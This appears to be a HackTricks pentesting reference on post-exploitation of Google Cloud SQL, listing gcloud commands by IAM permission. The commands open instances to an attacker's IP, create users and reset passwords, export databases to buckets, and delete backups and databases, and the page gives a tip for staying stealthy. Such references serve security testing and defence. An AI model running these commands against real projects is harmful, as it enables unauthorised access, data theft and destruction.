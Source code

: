 # GCP - Cloud SQL Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Cloud SQL

For more information about Cloud SQL check:

{{#ref}}
../gcp-services/gcp-cloud-sql-enum.md
{{#endref}}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

To connect to the databases you **just need access to the database port** and know the **username** and **password**, there isn't any IAM requirements. So, an easy way to get access, supposing that the database has a public IP address, is to update the allowed networks and **allow your own IP address to access it**.

```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
    --authorized-networks "$(curl ifconfig.me)" \
    --assign-ip \
    --quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```

It's also possible to use **`--no-backup`** to **disrupt the backups** of the database.

As these are the requirements I'm not completely sure what are the permissions **`cloudsql.instances.connect`** and **`cloudsql.instances.login`** for. If you know it send a PR!

### `cloudsql.users.list`

Get a **list of all the users** of the database:

```bash
gcloud sql users list --instance <intance-name>
```

### `cloudsql.users.create`

This permission allows to **create a new user inside** the database:

```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```

### `cloudsql.users.update`

This permission allows to **update user inside** the database. For example, you could change its password:

```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Backups might contain **old sensitive information**, so it's interesting to check them.\
**Restore a backup** inside a database:

```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```

To do it in a more stealth way it's recommended to create a new SQL instance and recover the data there instead of in the currently running databases.

### `cloudsql.backupRuns.delete`

This permission allow to delete backups:

```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```

### `cloudsql.instances.export`, `storage.objects.create`

**Export a database** to a Cloud Storage Bucket so you can access it from there:

```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```

### `cloudsql.instances.import`, `storage.objects.get`

**Import a database** (overwrite) from a Cloud Storage Bucket:

```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```

### `cloudsql.databases.delete`

Delete a database from the db instance:

```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```

{{#include ../../../banners/hacktricks-training.md}}



